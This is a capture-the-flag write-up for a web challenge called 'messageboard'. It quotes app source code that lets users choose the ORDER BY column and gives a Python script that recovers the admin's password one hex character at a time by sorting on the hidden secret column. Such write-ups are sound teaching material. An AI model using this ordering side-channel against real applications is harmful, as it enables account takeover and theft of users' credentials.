





# messageboard
> I left a little message for only my closest friends :)

## Background
The challenge presents a simple signup/login screen. After signing in, a Messageboard is shown with some pre-made accounts and messages.
<body align="left">
  
</body>

There are also some features to sort the board via a few different options, along with adding some close-friends.

<body align="left">
  
</body>

Searching for where the flag would be located in the source code, I saw that the flag is directly added to a key called "closeFriends" in the
Admin's account.

```

const seeds: Seed[] = [
	{
		name: "admin",
		public: "welcome to my board!",
		publicExpiry: HOUR,
		closeFriends: process.env.FLAG ?? "gaslightCTF{fake_flag}",
		closeFriendsExpiry: HOUR,
		closeFriendsList: ["alice", "carol", "dave"],
	},
	{
		name: "alice",
		public: "hello world",
		publicExpiry: 5 * MINUTE,
	},
	{
		name: "bob",
		secret: "iamthebuilder",
		public: "anyone know how to get on the admin close friends list?",
		publicExpiry: 30 * MINUTE,
		closeFriendsList: ["alice"],
	},
	{
		name: "carol",
		public: "just got added to the cool people list :)",
		publicExpiry: 45 * MINUTE,
		closeFriends: "ok it is not that cool, they just post cat pictures",
		closeFriendsExpiry: 20 * MINUTE,
		closeFriendsList: ["admin", "alice", "bob"],
	},
	{
		name: "dave",
		closeFriends: "shhh, this one is a secret",
		closeFriendsExpiry: 2 * HOUR,
		closeFriendsList: ["admin"],
	},
	{
		name: "eve",
		public: "nothing to see here",
		publicExpiry: 10 * MINUTE,
	},
];
```
After creating two test accounts, I found that everyone had their own closeFriends list, and you can only read the 
messages sent for closeFriends if you were on their friends list. Adding someone to your friends list didn't mean that they've 
added you.

With my account, I had no close friends by default with no option of adding them. But there is an account named "bob" that 
had a close friend by default: "alice". Using this as my test, this confirmed the previous discovery: That to view the messages of close
friends, I needed to be on their friends list.

<body align="left">
    
</body>

This means that there are a few ways to get the flag.
1. Login as the admin's account
2. Login as a close friend to the admin's account
3. Get the admin to add me as a close friend

## Building the solve
After messing around and reading the code of the other functionality of the app such as login/signin, closeFriends, 
and message posting, I eventually focused on to the sorting functionality of the messageboard.
```
const whitelist =
	"0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ";
export function filter(str: string) {
	for (const c of [...str]) {
		if (!whitelist.includes(c)) {
			return false;
		}
	}

	return true;
}

"/api/stories": {
			async GET(req) {
				const name = session(req);
				if (!name) {
					return Response.json({ error: "not logged in" }, { status: 401 });
				}

				const url = new URL(req.url);
				const column = url.searchParams.get("column") || "name";
				const order = url.searchParams.get("order") || "ASC";
				if (!filter(column) || !filter(order)) {
					return Response.json({ error: "nuh uh" }, { status: 400 });
				}
                const publicStories = await query(`
                      SELECT name          AS author,
                             'public'      AS visibility,
                             public        AS story,
                             public_expiry AS expiry
                      FROM users
                      WHERE public IS NOT NULL
                        AND public_expiry > now()
                      ORDER BY ${column} ${order}`);
                const cfStories = await query(`
                      SELECT name                 AS author,
                             'close_friends'      AS visibility,
                             close_friends        AS story,
                             close_friends_expiry AS expiry
                      FROM users
                      WHERE close_friends IS NOT NULL
                        AND close_friends_expiry > now()
                        AND (close_friends_list @> ARRAY['${name}'] OR name = '${name}')
                      ORDER BY ${column} ${order}`);

				return Response.json([...publicStories, ...cfStories]);
```
It takes two URL parameters: column and order. They have the options of name & expiry and ascending & descending respectively. 
It then directly appends it into a SQL query obtaining the messageboard data in a certain order.

However, it seems like traditional SQL injection isn't possible here because the filter() function removes
everything except [a-zA-Z0-9].

But, I still had control over the ORDER BY clause, the column and the order. So what other useful fields can I sort by?

messageboard.sql:
```
CREATE TABLE IF NOT EXISTS users (
    name TEXT PRIMARY KEY,
    secret TEXT NOT NULL,

    public TEXT,
    public_expiry TIMESTAMPTZ,

    close_friends TEXT,
    close_friends_expiry TIMESTAMPTZ,

    close_friends_list TEXT[] NOT NULL DEFAULT '{}'
);

```
The secret column. I can brute force the password to any account by continuously sorting by secret.

```
const secret = () => crypto.getRandomValues(new Uint8Array(8)).toHex();
...
const users = seeds.map((user) => ({ secret: secret(), ...user }));
```
Taking a closer look at how passwords are generated, I can see that every user by default uses this method of generating secrets.
Testing this out in the console, it generates a random 16 character Hex string for each password.

To test my theory, I manually created a few accounts with varying passwords from different valid hex characters to see if my idea really works.
For simplicity, I made their username and password the same. I then made them create a post with their password value in the messageboard, then sorted by secret.

<body align="left">
    
</body>

<body align="left">
    
</body>

With this, I confirmed that the idea was valid and that the first character of the admin's password in this instance was "a".
This value would change later as the instance would restart and the passwords of each user will be randomized again, but now 
I just needed to write the solve script.

The plan now is:
1. Create 16 individual accounts with each password a value between [0-9A-F]
2. Create a post with each account that only contains their password for simplicity.
3. Sort the messageboard by "secret" and identify which two accounts the admin's account lies between (or if its on the edge, in which case the value is F)
4. Append the discovered value to our discovered password, and repeat the process adding the next hex value to the found password.

Solve.py
```
import requests

validCharacters = "0123456789abcdefg"

URL = "https://3ac4e9c2-c7c5-47a8-9a75-e6f7c74d8a72.play.gaslightctf.cooking:1337"
password = ""

# Make an account with an inputted secret
def makeAccount(secret):
    data = {
        "name": secret,
        "password": secret
    }
    session = requests.Session()
    response = session.post(f"{URL}/api/signup", json=data)

    if not response.ok:
        print(f"login failed: {secret}")
        print(response.text)
        return None
    return session

# Make a post containing the username and password given a session
def makePost(session, secret):
    data = {
        "minutes": 60,
        "story": secret,
        "visibility": "public"
    }

    session.post(f"{URL}/api/stories", json=data)

# Make an account and a post
def makeGuess(secret):
    session = makeAccount(secret)
    makePost(session, secret)
    return session

# Identify where the admin account lies in all the created accounts.
def findRightPasswordStart(session):
    response = session.get(f"{URL}/api/stories?column=secret&order=ASC")
    # Querying also conveniently returned JSON
    allUsers = response.json()
    
    for i in range (len(allUsers)):
        # The admin will always appear right in front of the account with the closest password match.
        # Thus, return the user right before the admin which will have the correct guess.
        if allUsers[i]["author"] == "admin":
            # Return 
            return allUsers[i - 1]["author"][-1]
    return None

default_account = makeAccount("test")
while True:
    if len(password) == 16:
        break
    foundVal = False
    for i in range (len(validCharacters)):
        session = makeGuess(f"{password}{validCharacters[i]}")

    guess = findRightPasswordStart(default_account)
    if guess:
        password = f"{password}{guess}"
        print(f"{password}")
        continue
print(password)
```
With this, I obtained the password to log in as the admin.
<body align="left">
    
</body>

After logging in, I obtained the flag
<body align="left">
    
</body>

